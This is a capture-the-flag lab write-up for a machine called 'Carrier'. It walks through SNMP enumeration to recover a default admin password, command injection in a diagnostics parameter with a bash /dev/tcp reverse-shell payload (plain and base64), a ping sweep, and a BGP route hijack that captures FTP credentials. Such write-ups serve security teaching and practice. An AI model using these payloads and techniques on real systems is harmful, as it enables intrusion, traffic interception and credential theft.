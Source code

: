 # CARRIER
10.10.10.105

# User
80 port leads to a login page

### Versions
```
PHP Version 7.0.30-0ubuntu0.16.04.1
```

A login page with "Lyghtspeed"

### GoBuster
```
/img
/tools
/css
/js
/debug
/doc
```

On /doc found error_code.pdf

Error 45009 tells me default admin password is set

```
System credentials have not been set Default admin user password is set (see chassis serial number)
```

Decided to enumerate more. So I performed a nmap udp scan.

```
nmap.udp.txt
```

Found an open port 161 that is simple management protocol

By running:

```
snmpwalk -v 2c -c public 10.10.10.105
```

You get the string:

```
SN#NET_45JDX23
```

This gives the login

```
admin
NET_45JDX23
```

Diagnostic page has mention of:

```
zebra
bgpd
watchquagga
```

The verify button sends a parameter known as 'check' but seems to place the value straight into a command

This means we can add a ";" and run our own commands!! Reverse shell time!!!

Payload:
```
; bash -i >& /dev/tcp/10.10.14.55/8000 0>&1
```

Base64 Encoded:
```
OyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjU1LzgwMDAgMD4mMQo=
```

Gives us a reverse shell

# ROOT

Netstat:
```
tcp        0      0 10.78.10.1:bgp          10.78.10.2:49462        ESTABLISHED
tcp        0      0 10.99.64.2:ssh          10.99.64.251:52270      ESTABLISHED
tcp        0      0 10.78.11.1:bgp          10.78.11.2:47872        ESTABLISHED
tcp        0      8 10.99.64.2:49350        10.10.14.55:8000        ESTABLISHED
tcp        0      0 10.99.64.2:ssh          10.99.64.251:43758      ESTABLISHED
```

In the ticket information we have mention of

```
..."CastCom. still reporting issues with 3 networks: 10.120.15,10.120.16,10.120.17/24's"...
..."issues connecting by FTP to an important server in the 10.120.15.0/24 network"...
```
This shows the aim of the challenge is to obtain the 'important' ftp traffic

# Networks

```
10.120.15.0/24 
10.120.16.0/24
10.120.17.0/24
```

Scanning for active hosts without nmap
```
for x in {15..17} ; do (for i in {1..254} ;do (ping 10.120.$x.$i -c 1 -w 5  >/dev/null && echo "10.120.$x.$i" &) ;done) ; done
```

### 10.120.15.0/24

```
10.120.15.1
10.120.15.10 # FTP?
```

Nothing active on 10.120.16.0/24 or 10.120.17.0/24?

This whole network is a series of bgp routers


Using the vtysh command shell we can view the route a packet will take to reach the target ftp server

```
$ vtysh -c "show ip bgp"

*  10.120.15.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
```

Running our config.sh script on the system downloads our custom script and restarts the service. **This advertises that we are the shorted route to the ftp server.**

Out overall aim is to impersonate the FTP server

Now was able are able to receive the ftp traffic using ftpd.py giving us:

```
2019-03-15 15-54-01 [-] USER: root
2019-03-15 15-54-01 [-] Received data: PASS BGPtelc0rout1ng
```
 You can now ssh onto 10.120.15.10 and get the root flag!
